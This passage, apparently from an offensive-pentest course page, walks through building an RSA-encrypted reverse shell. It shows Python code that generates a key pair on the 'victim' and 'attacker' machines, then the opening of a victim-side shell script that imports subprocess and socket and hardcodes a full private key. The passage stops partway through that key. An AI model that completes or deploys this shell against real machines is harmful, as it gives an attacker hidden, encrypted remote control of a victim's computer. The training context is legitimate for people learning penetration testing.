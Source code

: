 
First, we will generate a pair of keys (private and public) on client side (victim's machine) and on server side (attacker machine).



## Gen keys

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


from Cryptodome.PublicKey import RSA

new_key = RSA.generate(4096) # generate  RSA key that 4096 bits long

#Export the Key in PEM format, the PEM extension contains ASCII encoding
public_key = new_key.publickey().exportKey("PEM")
private_key = new_key.export_key("PEM")

public_key_file = open("public.pem", "wb")
public_key_file.write(public_key)
public_key_file.close()

private_key_file = open("private.pem", "wb")
private_key_file.write(private_key)
private_key_file.close()

print(public_key.decode())
print(private_key.decode())

```


## RSA client side shell

```python
import subprocess
import socket
from Cryptodome.Cipher import PKCS1_OAEP
from Cryptodome.PublicKey import RSA
def decrypt(cipher):
    privatekey = '''-----BEGIN RSA PRIVATE KEY-----
MIIJKQIBAAKCAgEAt9mjsBED9D/MYnU+W5+6aP9SS1vgL9X6bThNkGKsZ5ZVfnoK
4BxMBHI5Gi/YtoCJjyAGsWMpxy1fQ+F+ZWVAkwZDoQMWTrfZASHmQgB944PfGA7q
fn15kDXmCyvzbitRyWvTs1LDDNF7Q/54Qj82h/85ibOPzQrpwQTjEAs8CJ14YWXA
JnqOC6devaDYKdB7SSlueVtoQ8BxWc3hOJHJpvgZQ/6NixnICLIrFN0YbKZo4A0D
3yRJIdumZw8uqwEMeIt41ja6zOG3gKtsG8suBZ/MvqX0WgojWr6hNs1Q8h3LtiSs
PiUP/bTWD9zos8Yr7RuEabesjHlY0qcNzZ/YgKXdgxUkCikTjRon6Mvh7iWKAtEi
lQlDeBYMGUvFUQ5FMF5LZJ5Q/7+JXulv8WhqKTp4dGpB3kUWuN+ltxBr+IYPhpBf
McR97W+NuXDReUiIGFJpVI1m4AeCzz1BdAM7U928DcglK6IowMmN4McyKuv49YYP
d7TNFjJWc7P6e19V3BsxA5jpCc6Dxp5AM6WC0FqgSSOGVCIkcHT5wLcALyaXOaO0
vhMgWWO233Of33wh/7oHclsc5r44MHlZrNSeX2QIHCFU4Mwp1hutIuIKkn5dLt1q
mt2CDUO/uxGbdTf667c9TLYcYWoi/eDBdrVx7CkYI7g81RdcB6jGgbr9W4kCAwEA
AQKCAgAIZt7PJgfrOpspiLgf0c3gDIMDRKCbLwkxwpfw2EGOvlUL4aHrmf9zWJD5
fGRH+tnOe6UyqBh5rL4kyQJQue7YiTm/+vcjA83b+mOeco1OP3GLlOrseul6SKxJ
qGmIiFxFezMCh+64AD7E3bU7Oc5RKr3DaDxTH4ONOZ7y1cCZmDCvKso8N++T4sM2
oUofpxJrRoRw8VdzeTD07K61OhxgEAh/jfuD9tqoYxQK8Quzs2spig66PNtGu9X/
8batQ/AA9kbAa2HgCRSswajAIGnrAeGGeOkQ0FPLStjtOzbOycPMgCKK+IChlIkP
0oWj6ZOKU26asjUlekov3kiINBzduF+bGOKGnoxeguSiQE1DtsfXisvADMp53rLN
RjkzWDTN7l8zqgAd2hPB25Fhy5kKHA1MNqRPeUUIUp++FuYVJ1xNoMR61N6JvLzC
UTrUZW7mMxqXisccsuU8OdGB2DECP+sS82dWZqoKFZKjza1N5XBSm1f7nCTQqtJq
kYYA5d4FPJ1wxRKufRTklC6QSHoGm54z0ay4Mh0n08wIiYBRxsgtGk6crhpRfy12
e6lRU3htQnzc+JDrdZIjoL5lqDfi0wSxdVXAAQXRptsvSXwwt+h/zg9ZmqlsVoE1
hH7LeVyL31FRF1b2BiX7jyOeeoqZ1gkkNvwyvqnaOos+wGd2/QKCAQEA0aeVV0HM
```